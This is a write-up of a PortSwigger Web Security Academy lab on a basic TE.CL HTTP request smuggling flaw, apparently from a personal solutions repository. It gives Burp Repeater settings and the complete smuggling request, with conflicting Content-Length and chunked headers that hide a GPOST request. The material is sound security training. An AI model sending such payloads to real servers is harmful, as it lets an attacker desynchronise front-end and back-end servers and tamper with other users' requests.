 
# HTTP request smuggling, basic TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

Note: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.


---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling



![img](images/HTTP%20request%20smuggling,%20basic%20TE.CL%20vulnerability/1.png)

---------------------------------------------

Intercept a request to “/”, change the method to POST, update the Repeater options so the Content-Length is not updated automatically and the protocol to HTTP/1:



![img](images/HTTP%20request%20smuggling,%20basic%20TE.CL%20vulnerability/2.png)


If we add a payload to add only 1 character, the “0” character gets added to the next request as well:



![img](images/HTTP%20request%20smuggling,%20basic%20TE.CL%20vulnerability/3.png)


The final payload needs:
- *Transfer-Encoding: chunked* for the frontend
- *Content-Length: 4* for the backend: It will take until the “26” characters
- *26* is the size in HEXADECIMAL for the following payload. Calculated as the length of each line + 2 for each new line character ("\\n").
- *GPOST / HTTP/1.1* to execute the GPOST request
- *Content-Length: 10* Because the backend is what understands
- *0* to end the second chunk
- 2 spaces after the “0” character

```
POST / HTTP/1.1
Host: 0a0c00cf030aaea982b5514b00a0005c.web-security-academy.net
Cookie: session=irWl3kQHO1irsOGobgJR43XvMwB3OAAk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

26
GPOST / HTTP/1.1
Content-Length: 10

0


```



![img](images/HTTP%20request%20smuggling,%20basic%20TE.CL%20vulnerability/4.png)
